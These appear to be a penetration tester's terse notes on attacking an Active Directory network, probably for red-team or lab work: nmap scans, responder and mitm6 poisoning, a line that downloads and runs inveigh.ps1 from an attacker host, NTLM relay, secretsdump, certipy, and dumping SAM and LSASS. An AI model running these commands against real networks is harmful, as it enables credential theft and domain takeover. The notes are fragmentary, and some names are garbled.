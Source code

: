 #### Enumerate the network for active hosts
Ping scan to quickly find active hosts
-  `nmap -sn 192.168.1.0/24 -oA nmap/ping_scan`
 Then find top 100 ports on the network 
-  `nmap -Pn 192.168.1.0/24 -F -oA nmap/top_100_ports`
Full scan
-  `nmap 192.168.1.0/24 -Pn -p- -oA nmap/full_scan`

#### Enumerate the domain
Discover the domain name
- check `/etc/resolv.conf` or run `ipconfig /all` to discover the DNS suffix
ac
Once you know domain name, find domain controller ip address:
- `nslookup domain_name`

Start poisoning:
- `responder -I eth0`
- windows(`enveigh-relay`)
	- `iex(iwr http://kali-ip/inveigh.ps1)`
- `mitm6`

Check smb version 
- `cme smb domain_ip`

Bloodhound(creds)
- Custom queries

Use coercer to get domain admin ntlm hash 

cme password spraying
netntlmv1

!!! responder 

ntlm-relay: 
secretsdump.py
- request hashes of any user in the domain

zero-logon(no)
- destroys domain controller

PrintNightmare
Hive Nightmare
  - priv esc

Bloodhound(creds)
- Custom queries(download me)


ms-08-67
ms-17-007


ADCS - active directory certificate services
- `certipy`
  - find vulnerable adcs configurations: `certipy find -vulnerable -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128`


Enumerating open file shares
smbmap, check for null sessions

sam
- check for local reuse of password hash

lsass
- stores passwords in memory
`cme` has `sam` and `lsa`

dns subrecords
- sublister
- gobuster
